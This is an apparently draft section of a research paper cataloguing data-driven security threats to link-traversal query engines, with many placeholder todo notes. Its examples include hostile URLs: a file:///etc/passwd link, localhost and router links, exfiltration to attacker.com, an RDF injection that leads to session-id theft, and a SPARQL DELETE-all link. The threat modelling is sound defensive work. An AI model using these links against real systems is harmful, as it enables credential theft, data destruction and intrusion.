 ## Data-driven Threats
{:#threats}

We list several security threats related to LTQP in the following categories:

* **Result Compromise**: Threats that lead to incorrect query results.
* **Malicious Linking**: Threats that cause links to be followed that cause unintended actions to be performed.
* **System Compromise**: Threats that cause the query engine to perform undesired operations.

### Result Compromise

#### Unauthorized statements

Carol defines a wrong name or bank account number for Alice
{:.todo}

### Malicious Linking

#### Local Linking

Links to URLs using the file scheme, such as `file:///etc/passwd`.
{:.todo}

Links to URLs on localhost, such as `http://localhost:1234/changePassword=123&callback=http://attacker.com/`.
{:.todo}

Links to URLs on LAN, such as `http://192.168.0.1/router/open-port=*`.
{:.todo}

#### Intermediate Result Leakage

**Depends on hybrid query execution**

Attacks in this category depend on the query engine to interpret certain URLs as queryable APIs,
which allows these APIs to collect intermediary query results.
The attacker in this case must have knowledge of the engine's query planner to intercept intermediary bindings.

Query over `http://my-private-data.org/passwords.ttl` and compromised TPF endpoint `http://attacker.com/?password=` (possible discovered via a link).
{:.todo}

#### Cross-Site Data Injection

Assuming a compromised API (`http://trusted.org/`) that is trusted by the user, but dynamically creates RDF responses based on URL parameters.
A malicious link to `http://trusted.org/?name=Bob". <> rdfs:seeAlso <http://hacker.com/getSessionIds>. <> foaf:name "abc`
could result in data injection and the query engine to follow a link to `http://hacker.com/getSessionIds`,
which may allow the attacker to steal the user's session id's.
{:.todo}

This is related to CORS
{:.todo}

#### Session Hijacking

Link to `http://my-sparql-endpoint?query=DELETE * WHERE { ?s ?p ?o }`, assuming that the user is actively authenticated for that endpoint during query execution.
{:.todo}

### System Compromise

#### Arbitrary Code Execution

e.g. JavaScript, which would be needed for dynamic HTML pages that inject JSON-LD, also leads to XSS
{:.todo}

#### Link Cycles

Links that cause a traversal cycle.
{:.todo}

#### System hogging

CPU/memory hogging, for example due to specifics of RDF serializations (long URLs, flaws in parsers, ...).
Or infinitely long documents
{:.todo}

#### Data Corruption

Crash due to syntax errors in documents
{:.todo}

#### Cross-query execution interaction

Potentially malicious interactions between parallel query executions.
For example, corruption or exploitation of shared caches.
{:.todo}

Discuss the isolation model from [3] in [](cite:cites securitymodernwebbrowserarchitecture) that can be adapted to querying?
{:.todo}
